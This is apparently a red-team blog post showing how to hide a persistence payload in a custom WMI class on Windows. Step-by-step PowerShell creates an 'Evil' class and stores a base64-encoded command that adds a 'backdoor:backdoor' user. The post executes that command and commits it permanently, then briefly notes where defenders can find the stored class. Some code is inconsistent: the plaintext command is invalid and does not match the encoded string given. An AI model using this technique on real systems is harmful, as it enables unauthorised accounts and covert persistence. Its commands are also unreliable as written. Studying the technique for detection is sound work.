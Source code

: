 ```yaml
---
layout: post
title: "2024-06-18-wmi data storage"
date: 2024-06-18
categories: t1084-abusing-windows-managent-instrumentation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-data-storage/
---
```


---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---

# WMI as a Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI Explorer shows the new `Evil` class has been created under the `root\cimv2` namepace - note the `EvilProperty` can also be observed:

![](../../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the `EvilProperty`, let's create a base64 encoded powershell command that adds a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Updating `EvilProperty` attribute to store `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in a screenshot:

![](../../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![](../../../.gitbook/assets/wmi-payload-executed.png)

If we commit the `$evilClass` with its `.Put()` method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties member shows the payload we have commited:

![](../../../.gitbook/assets/wmi-payload-commited.png)

## Observations

Using the WMI Explorer, we can inspect the class' definition which is stored in`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` 

The file contains all the classes and other relevant information about those classes. In our case, we can see the `EvilProperty` with our malicious payload inside:

![](../../../.gitbook/assets/wmi-evil-mof.png)

When inspecting the OBJECTS.DATA with a hex editor, it is possible \(although not very practical nor user friendly\) to find the same data - note that the screenshot is referring to the state of the Evil class at the very beginning of its creation as this is when I took the screenshot:

![](../../../.gitbook/assets/wmi-objects-data.png)

@spotheplanet
